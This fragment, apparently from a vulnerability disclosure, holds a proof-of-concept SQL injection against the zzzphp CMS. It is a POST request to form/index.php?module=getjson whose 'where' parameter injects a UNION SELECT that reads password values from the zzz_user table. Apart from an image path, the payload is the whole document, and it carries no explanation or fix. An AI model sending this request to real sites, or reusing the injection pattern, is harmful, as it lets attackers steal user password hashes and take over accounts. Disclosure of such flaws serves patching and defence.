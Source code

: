 POC
---

    POST /zzzphp/form/index.php?module=getjson

    table=gbook&where[]=1=1 union select password from zzz_user&col=1